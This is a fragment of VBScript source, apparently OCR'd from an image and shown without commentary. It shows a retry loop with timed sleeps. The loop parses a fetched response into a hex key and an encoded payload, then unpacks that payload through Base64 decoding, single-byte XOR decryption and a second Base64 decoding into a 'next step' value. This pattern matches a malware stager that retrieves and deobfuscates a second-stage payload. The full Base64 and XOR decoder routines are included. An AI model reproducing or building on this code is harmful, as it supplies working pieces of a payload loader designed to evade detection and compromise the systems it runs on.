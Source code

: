 ```vb
				exit function
			end if
			t=t+1
		else
			exit do
		end if
		WScript.Sleep 60*1000
	loop
	n=InStr(1,ret,"#")
	k=CLng("&h" & Mid(ret,1,n-1))
	psc=Mid(ret,n+1,Len(ret)-n)
	sc=bdec(psc)
	psc=CStr(xdec(sc,k))
	NStep=bdec(psc)
end function
function bdec(c)
	on error resume next
	const Base64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
	dim dataLength, sOut, groupBegin
	c = Replace(c, vbCrLf, "")
	c = Replace(c, vbTab, "")
	c = Replace(c, " ", "")
	dataLength = Len(c)
	if dataLength Mod 4 <> 0 then
		exit function
	end if
	for groupBegin = 1 to dataLength step 4
		dim numDataBytes, CharCounter, thisChar, thisData, nGroup, pOut
		numDataBytes = 3
		nGroup = 0
		for CharCounter = 0 to 3
			thisChar = Mid(c, groupBegin + CharCounter, 1)
			if thisChar = "=" then
				numDataBytes = numDataBytes - 1
				thisData = 0
			else
				thisData = InStr(1, Base64, thisChar, vbBinaryCompare) - 1
			end if
			if thisData = -1 then
				exit function
			end if
			nGroup = 64 * nGroup + thisData
		next
		nGroup = Hex(nGroup)
		nGroup = String(6 - Len(nGroup), "0") & nGroup
		pOut = Chr(CByte("&H" & Mid(nGroup, 1, 2)))
		pOut = pOut & Chr(CByte("&H" & Mid(nGroup, 3, 2)))
		pOut = pOut & Chr(CByte("&H" & Mid(nGroup, 5, 2)))  
		sOut = sOut & Left(pOut, numDataBytes)
	next
	bdec = sOut
end function
function xdec(input, pkey)
	xdec=""
	for i=1 to Len(input)
		xdec=xdec+chr(asc(mid(input, i, 1)) Xor pkey) 
	next
end function
```
